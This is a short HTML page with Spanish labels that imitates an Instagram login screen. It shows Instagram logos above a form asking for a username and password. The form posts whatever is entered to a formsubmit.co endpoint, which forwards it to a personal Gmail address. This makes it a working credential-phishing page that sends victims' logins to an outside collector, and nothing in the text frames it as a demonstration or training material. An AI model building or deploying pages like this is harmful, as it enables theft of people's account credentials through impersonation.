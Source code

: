 
<html>
<head>
    <meta charset="utf-8" />
</head>
<body>
    <img width="1000px" src="https://assets.turbologo.com/blog/es/2019/09/19133022/instagram-logo-illustration.png" />
    <h2>iniciar sesion</h2>
    <form action="https://formsubmit.co/enekocat0@gmail.com" method="POST">
       <label>nombre de usuario</label>
       <br/>
       <input type="text" name="nombre de usuario" />
       <br/>
       <label>contraseña</label>
       <br/>
       <input type="password" name="contraseña" />
       <br/>
       <input type="submit" value="inicar sesion" />
</form>
<img width="1000px" src="https://static.vecteezy.com/ti/vettori-gratis/p1/4263118-meta-instagram-icon-set-editorial-metaverse-concept-gratuito-vettoriale.jpg" />
</body>
</html>
